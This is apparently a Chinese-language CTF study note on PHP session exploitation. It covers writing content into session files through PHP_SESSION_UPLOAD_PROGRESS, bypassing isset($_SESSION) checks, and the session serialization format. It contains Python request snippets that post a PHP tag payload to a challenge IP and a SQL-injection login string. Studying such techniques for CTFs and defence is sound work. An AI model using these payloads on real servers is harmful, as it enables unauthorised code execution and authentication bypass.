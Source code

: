 tags:: CTFWEB/PHP/文件上传和写入, CTFWEB/RCE

- # 利用session向文件中写入文件
	- php session 的 ID 是可以在 cookie 中自定义的
	- session 位置一般是`/tmp/`或者`/var/lib/php/sessions`
	- session 文件名为 sess_xxxxx, xxxxx 就是自定义的 session ID
	- 而且，在上传文件时，文件的上传状态会保存在 session 文件中。
	- 而文件的上传状态也是可以控制的
	- 所以这样就可以上传恶意文件
		- ```python
		  requests.post(
		  "http://124.71.162.7:10882/",
		  data={
		      "PHP_SESSION_UPLOAD_PROGRESS": "<?php echo 123123;?>"
		  },
		  files={"file":('a.txt', io.BytesIO(b'a' * 1024 * 50))},
		  cookies={"PHPSESSID": "test"}
		  )
		  ```
	- 文件名在上面
- # 绕过isset($_SESSION)
	- 利用`isset($_SESSION)`来阻止访问template文件是不安全的。
	- 如果`php.ini`中开启了`session.upload_progress.enabled`，那么用户可以通过`PHP_SESSION_UPLOAD_PROGRESS`让PHP自动开启session
		- ```python
		  r = base_post(f"{url}/templates/login.php", params = {
		      "p": "login",
		      "username": 'bbb"||1#',
		      "password": "b"
		  }, data = {
		      "PHP_SESSION_UPLOAD_PROGRESS": "123456789"
		  }, files = {
		      "file": ("a", "a")
		  })
		  print(r.text)
		  ```
	- 示例：[[CTFWEB/WP/BUUCTF/PwnThyBytes 2019 Baby_SQL]]
- # PHP Session序列化格式
	- php的session序列化格式主要分为两种：对象序列化的格式和php内置的格式
	- php内置格式示例如下：
		- ``2|s:1:"2";name|s:3:"114";win|i:114;``
		- 前面是键值对的数量，后面是各个键值对的值
- # 强行修改PHP Session
	- `PHP_SESSION_UPLOAD_PROGRESS`其实暂存着序列化的Session，只要在上传文件时同时提交这个POST参数就能修改Session的值
	- [[CTFWEB/WP/CTFShow 新手杯 剪刀石头布]]
- # 伪造session
	- [[CTFWEB/WP/BUUCTF/HFCTF2020 BabyUpload]]